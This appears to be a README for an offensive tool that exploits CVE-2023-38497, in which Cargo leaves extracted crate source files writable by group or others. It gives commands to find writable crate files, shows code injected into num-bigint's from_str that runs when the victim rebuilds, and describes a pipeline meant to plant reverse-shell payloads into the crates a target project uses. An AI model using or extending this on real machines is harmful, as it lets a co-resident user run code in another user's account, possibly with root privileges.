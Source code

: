 
## Description
A new vulnerability in cargo version `1.7.0` has been found as explained [here](https://blog.rust-lang.org/2023/08/03/cve-2023-38497.html).

## Step by Step

First you have to make sure your cargo version is vulnerable

`cargo --version`

Supose I have a cargo project with the following `src/main.rs` file:

```
use num_bigint::BigInt;
use std::str::FromStr;

// Silly guessing game
fn main() {
    let secret_number = BigInt::from_str("123456789");
    loop {
        println!("Make a guess: ");
        let mut guess = String::new();
        std::io::stdin()
            .read_line(&mut guess)
            .expect("Error reading stdin");
        let guess = BigInt::from_str(guess.trim());
        if guess == secret_number {
            println!("That's right");
            break;
        }
    }
}
```

If I run the program:
```
cargo run
Make a guess:
20
Make a guess:
123456789
That's right!
```

Nothing wrong here.

Next, for all installed crates in your system, filter the ones whose permissions have bad configuration, that is, can be written by group or any other machine users

`find ~/.cargo/registry/src/* -type f -writable -print | egrep "*\.rs"`

This will yield a list of all vulnerable rust source files. From these chose the file that is suitable for your attack, which should be one in which there is defined a method that is used in the source code of the target cargo project.

And from the listing above I find the following vulnerable file: 

`$HOME/.cargo/registry/src/index.crates.io-.../num-bigint-0.1.44/src/bigint.rs`

Which as promised previously has the following permissions: `-rw-rw-r--`

Therefore it can be modified by any user in the same group as the cargo project owner, that's scary. But imagine any user could write that file, well there are crates with such permissions.

Now you can add a new user to your machine, or use an existing one other than the project user which belongs to the same group as the user for the file we're targeting. For example that source file in my machine has the following owner and group
`atreides people`
and another user I have, returns the following from running `id` command on him:

`uid=54322(bob) gid=54331(bob) groups=54331(bob),1000(people)`

Now we know user `bob` can write our target file and any other with such permissions. Switch to `bob` and follow up.

Taking a look into our guessing game we can see it is being used the `from_str` method from `BigInt` struct. That could be an interesting method to look at.

From the target file I've extracted this piece of code: 
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        BigInt::from_str_radix(s, 10)
    }
}
```

Now, what if you make it look like this
```
impl FromStr for BigInt {
    type Err = ParseBigIntError;

    #[inline]
    fn from_str(s: &str) -> Result<BigInt, ParseBigIntError> {
        println!("Message from beyond");
        BigInt::from_str_radix(s, 10)
    }
}
```

And rerun it cleaning the target directory:
```
cargo clean && cargo run
Make a guess:
20
Message from beyond
Make a guess:
123456789
Message from beyond
That's right!
```

Woah! Imagine you are writting your cargo project and you get the following messages.

Note that this will only happen whenever the target directory has been deleted previously, that is, cargo has to compile the crate after you modify the source file.

Now, this is only a demo on how to exploit this vulnerability, but imagine if you place any sort of payload inside a source file. This repo aims to establish reverse shell connection with the user's account whenever he runs a cargo project.

This is a mayor vulnerability if you consider that there could be cargo installations with root privileges so the placed payload would be executing with such permissions.

# Project Structure

In this project you will find the following utilities:

## Vulnerability analyzer

Searches accross the local cargo archive and a target cargo project to find all specific methods that could be exploited in the target's source code.
If there's a method in particular you'd like to exploit or you don't have read permissions on the target cargo project, skip the vanalyzer in the attack pipeline.

```
./vanalyzer/run.sh <target-project-path> <target-username>
```

## Available payloads

All payload types (reverse shell mainly and other malware) that can be placed inside a target crate source code. All available payloads as of now are:

- Reverse Shell (first that will be implemented)

## Integration

Mock shell that receives commands to run the vulnerability analyzer and
take one of the payloads listed above and a selected method to exploit from the vulnerability analyzer and integrates (copy and paste) the payload into the source code.

# Requirements

- [cargo-public-api](https://crates.io/crates/cargo-public-api)

# Attack pipeline
1. Run the mock shell (cargo project)

`cargo run`

2.
- Via vanalyzer +  integrate commands

`vanalyzer <cargo_project> <target_username>`

`integrate <file_no> <method_no> <payload>`

- Via exploit

`exploit <path_to_local_archive_crate_file> <method's_name> <payload>`

3. Run ok command

`ok`
